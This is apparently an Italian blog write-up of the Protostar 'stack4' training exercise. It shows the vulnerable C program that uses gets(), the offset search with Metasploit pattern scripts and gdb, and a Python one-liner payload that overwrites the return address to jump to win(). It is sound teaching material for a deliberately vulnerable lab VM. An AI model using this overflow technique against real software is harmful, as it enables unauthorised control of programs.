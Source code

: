 title:  Soluzione stack4 dei Protostar exploit exercises
date:   13-01-2020
slug:   protostar-stack4
category: security
image_url: protostar.png
summary: Proviamo a risolvere uno degli exploit exercises presenti nella VM [Protostar](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/)

[Protostar](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) è una Virtual Machine appositamente sviluppata per permettere di imparare a sfruttare diversi tipi di vulnerabilità.

In questo post andremo ad affrontare uno degli stack overflow, in particolare
la sfida stack4.

Il codice sorgente di questa sfida è:

```c
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  void win()
  {
    printf("code flow successfully changed\n");
  }

  int main(int argc, char **argv)
  {
    char buffer[64];

    gets(buffer);
  }
```

Troviamo il binario in `/opt/protostar/bin/stack4`.

L'uso di `gets(buffer)` rende evidente che il binario è vulnerabile ad un buffer overflow.
Mi creo quindi una stringa di overflow che mi permetta di ricavare l'offset sullo stack dell'indirizzo di ritorno.

Per farlo uso una VM con [Metasploit](https://www.metasploit.com/),
in particolare andremo ad usare lo script `pattern_create.rb` per generare una stringa di lunghezza 100 byte: `./pattern_create.rb -l 100`,
lo metto in un file prova, lo passo al programma tramite gdb

```
gdb
(gdb) run < /tmp/prova
```
Leggo l'indirizzo di segmentation fault

```
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

A questo punto passo questo indirizzo alla VM metasploit, usando lo script `pattern_offset.rb` in modo da ottenere l'offset sullo stack dell'indirizzo di ritorno
`./pattern_offset.rb -q 63413563`

Otterrò che l'offset dell'indirizzo di ritorno è di 76 byte.
A questo punto vado a riempire tutto l'offset con delle 'A', poi metto l'indirizzo della funzione `win()` che voglio eseguire.

Trovo l'indirizzo della funzione `win` con `objdump`

```
objdump -d ./stack4 | grep win
080483f4 <win>:
```

Quindi so che dovrò passare questo indirizzo (cambiando l'ordine dei byte visto che siamo su x86 che è little endian) in questo modo:

```
python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
```

voilà, abbiamo ottenuto il nostro risultato.
